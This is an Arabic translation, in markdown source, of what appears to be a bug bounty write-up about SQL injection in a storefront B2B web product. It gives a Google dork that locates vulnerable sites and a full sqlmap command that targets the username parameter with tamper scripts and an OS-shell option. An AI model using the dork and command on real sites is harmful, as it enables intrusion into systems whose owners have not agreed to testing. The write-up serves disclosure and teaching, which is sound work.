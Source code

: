 ```yaml
---
layout: post
title: من ثغرة SQL Injection إلى لوحة الشرف
---
```


![Username](/images/blog/002/main.png)

يغفل العديد من الناس الذين يعملون في مجال (Bug Bounty الإبلاغ عن الثغرات) عن أهمية إستخدام (Google Dorks) وهو تكنيك بحث متقدم يساعدك على إيجاد المعلومات التي عادتا قد لا تجدها بسهولة في الموقع الإليكتروني .

ومسمى أخر ل (Google Dork) هو (Google Hacking) والذي يعني أيضا إيجاد معلومات من الصعب الوصول إليها بمجرد إستخدام كلمة بحث بسيطة في محرك البحث ويمكنك الإطلاع أكثر عن هذا الموضوع [من هنا](https://whatis.techtarget.com/definition/Google-dork-query)



موخرََا عثرت على (Google Dork) يمكنك من العثور على مواقع تجارية مصابة بثغرة (SQL Injection)
والمكتشف الأصلي لهذه الطريقة هو مختبر إختراق بإسم ratboy.
```
inurl:storefrontb2bweb
```
بمجرد كتابة هذه الجملة في محرك البحث نجد أنه هناك 4 صفح من النتائج ولكن للأسف أغلب المواقع المصابة بالثغرة لا تمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
ولكن لحسن الحظ وجدت موقع من تلك المواقع يمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
وال(Parameter) المصاب هو (username parameter) الذي يرجع خطأ (SQL) عندما نستخدم (علامة إقتباس Single Quotation).

![Username](/images/blog/002/2.png)

يمكننا إستغلال تلك الثغرة بإستخدام أداة SQLMAP
```
python sqlmap.py -u"http://localhost/storefrontB2BWEB/login.do?setup_principal=true&action=prepare_forgot&login=true&usr_name=foo"
-p usr_name --dbms=mssql --level=5 --risk=3
--tamper=between,space2comment -o --random-agent --parse-errors
--os-shell --technique=ES
```
يمكننا إصلاح تلك الثغرة عن طريق (التأكد من المدخلات User Input Validation)

عندما أبلغت عن هذه الثغرة دخلت لوحة الشرف. ومنتهى أملي أن كل الشركات المصابة بهذه الثغرات تأخذ الخطوات اللازمة لإصلاح هذه المشكلة والأهم هو إيجاد وسيلة للإبلاغ عنها إذا وجدت


**إسم الكاتب :** [Jadek Mark](https://twitter.com/mase289)
**إسم المترجم :** [محمد ناصف](https://muhammadnasef.com/)
**تاريخ النشر :** 16 فبراير 2021
**رابط المقالة الأصلية :** [من هنا](https://medium.com/bugbountywriteup/from-sql-injection-to-hall-of-fame-96a08c869acd)